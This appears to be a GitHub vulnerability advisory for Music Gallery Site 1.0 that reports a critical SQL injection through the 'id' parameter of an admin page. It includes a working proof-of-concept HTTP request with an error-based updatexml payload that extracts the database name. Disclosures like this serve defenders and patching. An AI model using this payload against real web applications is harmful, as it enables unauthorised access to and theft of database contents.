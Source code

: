 ## Music Gallery Site has a front-end SQL injection vulnerability

## Affected version: 
Music Gallery Site - 1.0

## Author:
Liuhaobin

## Software:
https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html

## Vulnerability File:
 /php-music/admin/?page=musics/view_music

## Description:
Music Gallery Site 1.0 is vulnerable to an unrestricted SQL injection attack in /php-music/admin/?page=musics/view_music with the attack parameter id. An attacker can exploit this vulnerability to directly obtain sensitive server information. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
GET /php-music/admin/?page=musics/view_music&id=4%27+and+updatexml(1%2Cconcat(0x7e%2C(database()))%2C3)--+q HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
<img width="1197" alt="image" src="https://github.com/user-attachments/assets/1372dd3a-f865-41bb-8676-4ea4fb727a70">


